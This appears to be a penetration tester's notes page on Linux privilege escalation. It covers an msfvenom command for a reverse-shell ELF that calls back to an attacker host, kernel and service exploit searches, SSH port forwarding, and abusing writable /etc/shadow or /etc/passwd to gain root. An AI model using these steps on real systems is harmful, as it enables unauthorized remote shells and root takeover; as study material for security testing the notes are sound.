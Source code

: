     * &#x20;can be used to genereate an executable elf file
    * $msfvenom -p linux/x86/shell\_reverse\_tcp LHOST=\<IP> LPORT=\<port> -f elf > shell.elf
    * can be caught with netcat or multi/handler
  * Native reverse shells
    * [https://github.com/mthbernardes/rsg](https://github.com/mthbernardes/rsg)
    * Can all be caught with netcat listener

## Techniques

### Kernel exploits

* \#uname -a Enumerate Kernel verison
* Find matching exploit, compile, and run
  * \#searchsploit \[option] \[option]
  * \#linux-exploit-suggester-2.py
  * \# uname -ar
  * \# cat /etc/issue
  * \# cat /etc/\*-release
  * \# cat /etc/lsb-release # Debian based
  * \# cat /etc/redhat-release # Redhat based
* [https://github.com/spencerdodd/kernelpop](https://github.com/spencerdodd/kernelpop)
* [https://github.com/SecWiki/linux-kernel-exploits](https://github.com/SecWiki/linux-kernel-exploits)
* [https://github.com/lucyoa/kernel-exploits](https://github.com/lucyoa/kernel-exploits)
* [https://github.com/bcoles/kernel-exploits](https://github.com/bcoles/kernel-exploits)
* _PTFM: Dirty Cow PrivEsc pg. 92_&#x20;

### Service Exploits

* \#ps aux | grep “^root” Show all processes runnign as root
* \#netstat -nl Show all actice connections (look for services)
* Try to ID verison number and research for exploits
  * \#\<program> -v or --version show version number
  * \#dpkg -l | grep \<program>
  * \#rpm -qa | grep \<program>
* Some processes running as root may be bound to an internal port through which it communicates
  * If it cannot be run locally on the target machine, the port can be forwarded using ssh to your local machine
  * $ssh -R \<local port>:127.0.0.1:\<service-port> \<username>@\<local-machine>
  * Run netstat to see what services are listening to 127.0.0.1:\<port>, then use port forwarding to send to the target port

### Weak File permissions

* /etc/shadow
  * Readable - copy and crack the Root user hash
  * writeable - copy and edit the shadow file with new root password
* /etc/passwd
  * For backwards compatibility, if the second field of a user row is a passwrod hash, it takes precedent over /etc/shadow
  * Either replace the password for root, or append a new user with root permissions.
  * Delete the x in the second field reads as if there is no password for user
* Backups
  * Some can be readable to gather interesting files

